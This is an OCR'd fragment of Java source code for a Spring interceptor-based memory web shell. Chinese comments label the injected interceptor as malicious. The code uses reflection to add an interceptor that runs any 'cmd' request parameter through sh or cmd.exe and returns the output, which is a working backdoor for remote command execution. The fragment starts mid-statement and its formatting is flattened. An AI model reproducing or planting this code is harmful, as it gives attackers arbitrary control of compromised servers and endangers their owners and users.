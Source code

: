 Listinterceptors = (List) field.get(bean);                    //添加恶意Interceptors                    interceptors.add(new InjectInterceptor());                    System.out.println("[+] /shell Interceptor injected.");                } catch (NoSuchFieldException | IllegalAccessException e) {                    throw new RuntimeException(e);                }            }                //重构Interceptors类            @Override            public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {                if (request.getParameter("cmd") != null) {                    try {                        boolean isLinux = true;                        String osTyp = System.getProperty("os.name");                        if (osTyp != null && osTyp.toLowerCase().contains("win")) {isLinux = false;                        }                        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};                        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();                        Scanner s = new Scanner(in).useDelimiter("\\A");                        String output = s.hasNext() ? s.next() : "";                        response.getWriter().write(output);                        response.getWriter().flush();                        response.getWriter().close();                    } catch(Exception e){                        e.printStackTrace();                    }                    return false;                }                return true;            }            @Override            public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView modelAndView) throws Exception {            }            @Override            public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable Exception ex) throws Exception {            }        
  
  
  
  
  
  
  
   
  

